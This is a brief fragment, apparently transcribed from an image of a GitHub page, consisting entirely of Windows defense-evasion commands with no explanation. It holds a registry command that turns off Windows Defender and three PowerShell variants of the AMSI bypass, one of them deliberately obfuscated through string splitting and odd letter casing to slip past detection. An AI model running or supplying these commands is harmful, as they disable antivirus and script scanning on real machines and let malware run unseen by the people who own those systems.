 reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')::amsiInitFailed=$true
sET-ItEM ( 'V'+'aR' + 'IA' + 'BLe:1q' + '2' + '3' ).nAME ('Amsi'+'In'+'it'+'FaIled')  $True

$A = [Ref].Assembly.GetType(('System' + '.Management.Automation.AmsiUtils'))
$B = $A.GetField('amsiInitFailed','NonPublic,Static')
$B.SetValue($null,$true)
